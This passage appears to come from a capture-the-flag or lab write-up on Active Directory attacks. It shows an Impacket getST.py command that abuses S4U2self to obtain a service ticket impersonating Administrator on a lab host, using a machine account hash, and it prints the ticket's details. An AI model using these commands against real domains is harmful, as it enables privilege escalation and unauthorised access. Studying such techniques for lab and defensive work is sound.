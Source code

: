 ```
getST.py -self -impersonate 'Administrator' -altservice 'cifs/SCRIPTORIUM.jess.kingdom' 'jess.kingdom'/'SCRIPTORIUM$' -hashes ':cdc728e1aefc4e997d6d895fbbaec3f9'
```

![](./assets/img/sincon/9c0ca9426cbef0a5ea09ef77a627e90c.png)

The attributes of this ticket can also be found using `describeTicket.py`, which shows that is a valid ticket for the `cifs/SCRIPTORIUM.jess.kingdom` service, for the `Administrator` user in the `jess.kingdom` realm:

```
describeTicket.py Administrator@cifs_SCRIPTORIUM.jess.kingdom@JESS.KINGDOM.ccache
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : a3c0173f32c7c3ad93d7dddf7d549e90
[*] User Name                     : Administrator
[*] User Realm                    : jess.kingdom
[*] Service Name                  : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm                 : JESS.KINGDOM
[*] Start Time                    : 26/05/2025 03:02:06 AM
[*] End Time                      : 26/05/2025 13:02:06 PM
[*] RenewTill                     : 27/05/2025 03:02:08 AM
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : o8AXPzLHw62T193ffVSekA==
[*] Kerberoast hash               : ...redacted...
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : cifs/SCRIPTORIUM.jess.kingdom
[*]   Service Realm               : JESS.KINGDOM
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

And subsequently, this ticket can be used for Kerberos authentication to `SCRIPTORIUM` as `Administrator`:

![](./assets/img/sincon/39aae768b3364999a85c609b84546775.png)
